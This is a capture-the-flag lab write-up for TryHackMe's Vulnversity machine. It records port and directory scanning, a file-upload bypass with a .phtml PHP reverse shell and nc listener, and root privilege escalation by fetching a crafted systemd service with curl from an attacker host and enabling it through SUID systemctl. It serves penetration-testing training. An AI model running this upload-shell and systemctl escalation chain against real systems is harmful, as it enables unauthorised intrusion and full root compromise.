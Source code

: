 # Vulnversity

2021-12-21

## NMAP

-sV => Determine versions of running services
-sC => Scan with default namp scripts

```
koffee@kali:~/tryhackme/vulnversity$ nmap -sV -sC -oN scan.nmap 10.10.65.121 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 14:10 CST
Nmap scan report for 10.10.65.121
Host is up (0.11s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-12-21T15:11:02-05:00
| smb2-time: 
|   date: 2021-12-21T20:11:01
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.14 seconds
```

# GoBuster

| Flag | Description|
|----|---|
|-e |	Print the full URLs in your console |
-u / --url	| The target URL
-w	| Path to your wordlist
-U and -P	| Username and Password for Basic Auth
-p | Proxy to use for requests
-c | Specify a cookie for simulating your auth
	
```
koffee@kali:~/tryhackme/vulnversity$ gobuster dir --url http://10.10.65.121:3333 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.121:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/21 14:22:31 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.65.121:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.65.121:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.65.121:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                     
/internal             (Status: 301) [Size: 322] [--> http://10.10.65.121:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.65.121:3333/js/]      
/server-status        (Status: 403) [Size: 302] 
```

## OWASP ZAP Fuzzing

Tools >> Options >> Local Proxies >> `localhost:8080`
Tools >> Options >>  Dynamic SSL Certificates >> Save

Inside Firefox 

Preferences >> Security & Privacy >> View Certificates >> Import
Set HTTP Proxy to use `localhost:8080`

Make POST request to upload file >> highlight uploaded file >> Right Click >> Fuzz

We see that `.phtml` files are allowed

## Reverse Shell

Download [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change `$ip` and `$port` inside script, open firewall

```
nc -lvnp 8888
```

Rename `php-reverse-shell.php` to `.phtml` and upload, then naviagate to `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml`

## SUID

```
find / -user root -perm -4000 -exec ls -ldb {} \;

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

## Systemctl Privilege Escalation

https://gtfobins.github.io/gtfobins/systemctl/

On Attacker System:

```
% cat service.txt
[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/out"
[Install]
WantedBy=multi-user.target
```

Host using `python3 -m http.server 9999`

On Remote Shell

```
% TF=$(mktemp).service
% curl 10.x.x.x:9999/service.txt > $TF
% systemctl link $TF
% systemctl enable --now $TF

TF=$(mktemp).service && curl 10.x.x.x:9999/service.txt > $TF && systemctl link $TF && systemctl enable --now $TF && cat /tmp/out

% cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```
Go and change the service text to find the flag
 
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/out"
[Install]
WantedBy=multi-user.target
```

```
$ TF=$(mktemp).service && curl 10.x.x.x:9999/service.txt > $TF && systemctl link $TF && systemctl enable --now $TF && cat /tmp/out

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   114  100   114    0     0    337      0 --:--:-- --:--:-- --:--:--   337
Created symlink from /etc/systemd/system/tmp.L3uCyJblwK.service to /tmp/tmp.L3uCyJblwK.service.
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.L3uCyJblwK.service to /tmp/tmp.L3uCyJblwK.service.
uid=0(root) gid=0(root) groups=0(root)
total 4
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 bill
total 4
-rw-r--r-- 1 root root 33 Jul 31  2019 root.txt
[REDACTED]
```

